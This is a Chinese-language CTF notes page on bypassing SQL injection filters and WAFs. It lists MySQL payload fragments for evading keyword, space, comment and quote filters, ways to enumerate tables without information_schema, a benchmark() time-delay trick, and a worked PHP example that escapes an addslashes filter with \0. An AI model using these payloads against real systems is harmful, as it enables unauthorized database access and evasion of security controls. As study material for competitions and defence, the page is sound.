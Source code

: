 CTF/SQL/绕过

- > ~~反 waifu~~
- # 常见绕过手法
  id:: 65295f4e-bfcb-4286-a698-89181acb25d2
	- `or`和`and`
		- 使用`||`和`&&`代替
	- `information_schema`
		- `sys.schema_auto_increment_columns`
		- `select table_name from mysql.innodb_table_stats where database_name = database();`
		- `mysql.innodb_table_stats`
		- `(select(group_concat(table_name))from(sys.schema_table_statistics_with_buffer))`
		- [参考](https://www.jianshu.com/p/5aad090eb613)
	- `=`
		- 使用`like`或者`regexp`代替
	- 空格等
		- 使用`()`即`select(flag)from(xxx)`进行代替
			- 版本太低时无法使用
		- 使用`/**/`或者`<>`代替
		- `and 1=1` --> `and!!1=1`
		- `payload.replace(' ', chr(0x0b))`
			- mysql可用
	- `#`和`-`
		- 构造`||'`去闭合最后的`'`
	- `/*`
		- 使用`#\n`
	- `substr`
		- 试试`substring`
		- 可以使用`mid`代替
			- `mid(('ahahaha')from(1)for(3))`
		- 试试`left`和`right`
			- `right(left(TARGET,POSITION),1)`
	- 各类关键词（如`medium`）
		- 可以使用十六进制`0x6d656469756d`代替
		- `SELECT 'a' 'd' 'mi' 'n';`
		- `SELECT CONCAT('a', 'd', 'm', 'i', 'n');`
	- `^`
		- 可使用`$`来从后往前进行匹配
	- `where`
		- 可以使用 having
	- `select`
		- `table`
		- `handler`
	- `if`
		- `select case when (条件) then 代码1 else 代码 2 end`
		- `IFNULL()` ,  `NULLIF()`
	- `union select`
		- `union all select`
		- 注释
			- `union/**/select`
			- 单行注释配合换行
				- `union #\nselect`
			- `union/*!/*!10000select*/`
			-
	- `sleep`
		- `benchmark(10000000,sha(1))`
		- 利用[[regex/ddos]]卡时间，达到和sleep相同的效果
	- 引号
		- `/*!0x2e2a3fe6ada2e8a1802e2a3f*/`
		- ^^`/*!*/`  意为在xxx版本之上执行^^
- # 绕过 addslashes
	- ```php
	  $id=addslashes($id);
	  $path=addslashes($path);
	  
	  $id=str_replace(array("\\0","%00","\\'","'"),"",$id);
	  $path=str_replace(array("\\0","%00","\\'","'"),"",$path);
	  
	  $result=mysqli_query($con,"select * from images where id='{$id}' or path='{$path}'");
	  ```
	  
	  使用`\0`可以消除单引号
	  
	  `\0'` -> `\\0'` -> `\'`
	  
	  因此，只要让`$id`为`\0`就可以让`$path`逃逸
	  
	  > 在处理字符串时，mysql 并不是逐字符解析的（因为还要考虑反引号），但是 addslash 加 str_replace 是逐字符解析的，这就造成了漏洞
	  >
	  > 举例：解析`1a\0'`
	  >
	  > `1 a \ 0 '` -> `1 a \\ 0 \' `(本应这么解析) -> `1 a \ \0 \'` -> `1 a \\'` -> `1 a`
- # 安全狗
	- [[SQL注入/绕过商业WAF]]